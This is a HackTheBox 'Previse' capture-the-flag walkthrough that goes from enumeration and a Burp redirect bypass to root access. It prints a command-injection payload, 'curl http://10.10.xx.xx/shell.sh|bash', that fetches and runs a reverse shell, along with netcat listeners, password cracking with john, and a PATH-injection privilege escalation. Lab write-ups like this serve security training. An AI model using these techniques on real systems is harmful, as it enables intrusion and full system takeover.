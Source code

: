 HackTheBox Previse Walkthrough

![privese](https://user-images.githubusercontent.com/67886668/128668035-e6d8c71e-04eb-408e-97a7-0ab497b90ab7.PNG)

summary:
1- Scanning
2- Enumeration
3- Exploitation
4- Privilege Escalation

1-Scanning
port scanning:

![nmap](https://user-images.githubusercontent.com/67886668/128668136-b281f9c8-7024-42b2-ab80-b914b7154b68.PNG)

after using nmap we found 2 open ports: ssh and http and it is not have anything interesting.
2-Enumeration
Gobuster : 

![gobuster](https://user-images.githubusercontent.com/67886668/128668184-5c5d52ba-9dcc-465c-a166-75888ddc9a52.PNG)

It has a lot of php file.Lets go to website to collect more information.
After going to http://previse.htb/ we get a login form i tried sql injection for this form but it does not work so I tried to go for this php files but Most of them depends to login form so it does not work.
but there is an interesting file called “nav.php”
it is work but after that when i click in any link it is retrive me to login page
so i’m started burp and found this response  

![302](https://user-images.githubusercontent.com/67886668/128668257-bc8e4f7f-0b3d-413a-82f6-6e2d9f9c8e2f.PNG)
   
After searching for a while about 302 found i knew i can edit responses using burp suite  to bypass this so i changed 302 found to 200 OK and changed the location.
HINT:to change location file look to request to know what php file you need ;).
it is work :)
3-Exploitation

![add user](https://user-images.githubusercontent.com/67886668/128668323-78d2b7d2-ff9e-48f3-b4e0-889d3e096a4d.PNG)

you will get this page,create a user and do the same in response using burp to add user.
then you were added a new user. 
go to the login page and login with your created user.

![uploaded files](https://user-images.githubusercontent.com/67886668/128668407-c4c87635-dc5e-46a3-abe2-1229583edf4b.PNG)

you are logged in, while discovering pages you will find this zip file download it to your device 
and take a look for his file. You will find mysql server credentials but you will not connect to mysql server so you need to get a shell before.

![getting shell](https://user-images.githubusercontent.com/67886668/128668444-e54a3993-fe76-4ce7-92d5-97d7173891e2.PNG)

so the shell you will get it from “logs.php”.
 create your reverse shell in your device using bash from this link  here and use this 
<curl http://10.10.xx.xx/shell.sh|bash> in delim variable 
but before that use  nc -lvnp <port number> in your terminal 
you gets the shell as www-data 
now you can use mysql to get user accounts.
    
![no sql](https://user-images.githubusercontent.com/67886668/128668652-8fa2e91c-bcdc-40e1-8867-f53a80f11242.PNG)
    
in my  case after using mysql it was not connected and didn’t respond to me.

![sql](https://user-images.githubusercontent.com/67886668/128668725-b64b26f2-4f05-413c-aa56-59406d76f1cd.PNG)
    
So I used a spawning tty shell and then tried to use mysql and it worked.

![user](https://user-images.githubusercontent.com/67886668/128668782-91415229-f046-498a-a04b-e3aac22f403a.PNG)
    
and now using your sql skills you will get this 2 users the first one that you want and second one was your created user. 
So now it is time to crack the hash.

![hash crack](https://user-images.githubusercontent.com/67886668/128668843-b7c47669-2a2a-490c-b57c-e89a35a44b1c.PNG)
    
i used hashcat but it is takes an one hour and didn’t get the hash, if you used this:
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt 
you will know the hash type is md5crypt-long.
so after using this command in the above figure it will take time but in the end you will get cracked hash.
    
![now user](https://user-images.githubusercontent.com/67886668/128668898-08f47e41-19cf-4df3-88be-a6b4093d7930.PNG)

after getting the password for m4lwhere, i tried to connect using ssh but it wasn’t work 
and in www-data i couldn’t use sudo and su so i used spawning tty shell again and then
connected as a m4lwhere and get user.txt

4-Privilege Escalation

![sudo](https://user-images.githubusercontent.com/67886668/128668925-fbc6267d-fc4d-44a1-ba73-1930040b21b0.PNG)
    
using sudo -l  it is an interesting script /opt/scripts/access_backup.sh.
after reading this file it is use gzip 
with some search i found i can use path injection to getting a shell as root 
    
![code injection](https://user-images.githubusercontent.com/67886668/128669002-d9021b19-e866-420f-b833-dca2844ef277.PNG)

I went to /tmp file ,then created a gzip script. It has a reverse shell using bash and makes it an executable file. 

![path injection](https://user-images.githubusercontent.com/67886668/128669060-84b80c27-d187-4c6e-8fab-4c88d102e7e7.PNG)
    
then i exported /tmp to the PATH variable, after add tmp to PATH it is time to get root.

![run script](https://user-images.githubusercontent.com/67886668/128669090-fb60f0bc-2117-420d-a9cf-f9aec4d0210a.PNG)
    
before running access.backup.sh script, we will use nc to listen new reverse shell like:
nc -lvnp 4444
    
![root](https://user-images.githubusercontent.com/67886668/128669112-ed6f5186-2733-499e-9a9b-f5bac8b3f83c.PNG)

after running the script you were to get a shell as a root cat your flag ;-)

